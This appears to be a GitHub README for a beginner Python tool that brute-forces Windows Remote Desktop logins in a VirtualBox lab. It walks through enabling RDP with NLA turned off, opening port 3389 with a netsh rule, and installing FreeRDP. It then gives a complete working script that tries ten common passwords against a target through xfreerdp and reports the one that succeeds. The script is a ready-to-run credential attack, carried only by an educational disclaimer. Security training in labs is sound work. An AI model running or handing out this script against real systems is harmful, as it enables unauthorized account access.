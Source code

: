 # 🛡️ RDP Brute-Force Attack Tool

This is a Python-based brute-force script designed for **ethical hacking** and **cybersecurity learning** in a **controlled lab environment**. It targets a Windows VM with Remote Desktop Protocol (RDP) enabled and tests a list of passwords to identify weak credentials.

> ⚠️ **Disclaimer:** This tool is for educational and authorized penetration testing purposes **only**. Misuse is illegal.

---

## 🧰 Features

- Python script using `xfreerdp`
- Tests 10 common passwords from a built-in wordlist
- Simple, beginner-friendly code
- Intended for virtual lab environments only

---

## 🖥️ Lab Setup Instructions

### Step 1: Setup Network in VirtualBox

- Use **Host-Only Adapter** (or Internal Network) for both VMs:
  - Go to: *VirtualBox → Settings → Network*
  - Set `Adapter 1` → `Enable Network Adapter`
  - Attached to: **Host-Only Adapter**
  - Adapter Type: `Intel PRO/1000 MT Desktop`

Repeat the same for **Windows VM**.

### Step 2: Get IP Addresses

- **Kali Linux:**  
  Run `ip a` or `ifconfig`  
  Look for something like: `192.168.56.**`

- **Windows VM:**  
  Run `cmd` → `ipconfig`  
  Find: `IPv4 Address: 192.168.56.**`

---

## ⚙️ Windows RDP Configuration

### Step 3: Enable RDP

- Run: `SystemPropertiesRemote`
- Check: ✅ Allow remote connections
- Uncheck: ❌ “Allow connections only from computers with NLA”

## 📸RDP Enabled
![Enable RDP on Windows Machine](https://github.com/user-attachments/assets/104ea17b-0ae3-4abe-a263-2532d0c3d89b)


### Step 4: Allow RDP Through Firewall

Run the following command as **Administrator** in CMD:

```bash
netsh advfirewall firewall add rule name="Allow RDP" dir=in action=allow protocol=TCP localport=3389
```

## 🐍 Running the Python Script
### Step 5: Install FreeRDP on Kali
```bash
sudo apt update
sudo apt install freerdp2-x1
```
## Step 5.2: Test RDP Connection from Kali
```bash
xfreerdp /v:<your windows machine ip> /u:Admin /p:12345 /cert:ignore
```
✅ If you see the desktop or authentication prompt, it works.

### Step 6: Write the Brute-Force Script
Create the file:
```bash
nano rdp_brute.py
```
## Paste the code:
```bash
import subprocess

target_ip = "192.168.56.**"  # Change to your Windows VM IP
username = "administrator"    # Change to your Windows user

passwords = [
    "123456", "admin", "administrator", "password",    
    "admin123", "test123", "welcome", "qwerty", "1234", "56789"
]

print(f"[*] Starting brute-force on {target_ip} with username '{username}'...\n")

for attempt, password in enumerate(passwords, 1):
    print(f"[{attempt}/10] Trying password: {password}")
    try:
        result = subprocess.run(
            ["xfreerdp", f"/v:{target_ip}", f"/u:{username}", f"/p:{password}", "/cert:ignore"],
            capture_output=True, text=True, timeout=10
        )

        if "Authentication only, exit status 0" in result.stderr or result.returncode == 0:
            print(f"\n[+] SUCCESS! Password found: {password}")
            break
        else:
            print("[-] Failed.")
    except subprocess.TimeoutExpired:
        print("[!] Timeout, skipping...")
    except Exception as e:
        print(f"[!] Error: {e}")
else:
    print("\n[-] Tried all 10 passwords. No match found.")

```
Save and exit:
**Press Ctrl + O, then Enter**
**Press Ctrl + X to exit nano**

### Step 7: Run the Script

```bash
python3 rdp_brute.py
```
You’ll see it try each password and print either "Success" or "Failed"

## 📸 Successful Login
![brute_force_success](https://github.com/user-attachments/assets/ae66d164-0ae5-42ae-b071-1de4814a21c5)





